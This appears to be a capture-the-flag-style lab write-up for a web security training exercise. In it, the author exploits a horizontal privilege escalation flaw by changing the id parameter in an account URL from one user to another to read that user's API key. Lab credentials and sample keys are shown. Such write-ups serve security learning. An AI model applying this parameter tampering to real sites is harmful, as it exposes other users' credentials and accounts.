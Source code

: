  *This lab has a horizontal privilege escalation vulnerability on the user account page. To solve the lab, obtain the API key for the user carlos and submit it as the solution. You can log in to your own account using the following credentials: wiener:peter* 
 
 Logging with the given credentials gives us the API key for *wiener* as well as the user ID in the request parameter. 
 ```URL
 https://0ae0009d03f01b1f82e875d300ec00a3.web-security-academy.net/my-account?id=wiener
```

```
My Account

Your username is: wiener
Your API Key is: Gzp97OSX5KSnZSISMC2UZoJjMqkKAcnB
```

I changed the user ID in the request parameter to *carlos* and was given the following API key! 
```URL 
My Account

Your username is: carlos
Your API Key is: w5eiak2EyugMjuBOa4V9zVaxbUKlhsoc
```